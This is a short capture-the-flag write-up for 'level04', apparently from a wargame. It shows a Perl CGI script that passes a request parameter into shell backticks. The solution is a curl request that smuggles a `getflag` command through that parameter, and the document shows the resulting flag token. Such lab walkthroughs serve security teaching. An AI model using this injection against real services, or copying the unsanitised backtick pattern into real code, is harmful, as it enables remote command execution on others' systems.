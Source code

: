 # level04 solution
Given perl script that starts at localhost at port 4747, takes argument x and prints it with echo

    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
    }
    x(param("x"));

We can check if it runs with netstat command:

    netstat -tuln
    tcp6       0      0 :::4242                 :::*                    LISTEN

We can connect to it via curl and provide argument via get parameters:

    curl localhost:4747?x=smth
    smth

We can abuse this behaviour by putting backquotes to x so bash will expand it and execute any program we put in between:

    curl localhost:4747?x=\`getflag\`
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
